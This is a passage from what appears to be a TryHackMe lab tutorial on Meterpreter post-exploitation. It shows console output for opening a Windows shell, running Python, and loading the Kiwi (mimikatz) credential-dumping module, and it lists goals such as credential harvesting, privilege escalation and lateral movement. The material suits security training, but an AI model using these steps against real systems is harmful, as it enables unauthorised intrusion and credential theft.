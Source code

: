Shell

The shell command will launch a regular command-line shell on the target system. Pressing CTRL+Z will help you go back to the Meterpreter shell.
The shell command

           
meterpreter > shell
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

## Post-Exploitation Challenge

Loading Python

           
meterpreter > load python
Loading extension python...Success.
meterpreter > python_execute "print 'TryHackMe Rocks!'"
[+] Content written to stdout:
TryHackMe Rocks!

meterpreter >

        

 

The post-exploitation phase will have several goals; Meterpreter has functions that can assist all of them.

    Gathering further information about the target system.
    Looking for interesting files, user credentials, additional network interfaces, and generally interesting information on the target system.
    Privilege escalation.
    Lateral movement.

Once any additional tool is loaded using the load command, you will see new options on the help menu. The example below shows commands added for the Kiwi module (using the load kiwi command).
Loading Kiwi

           
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/
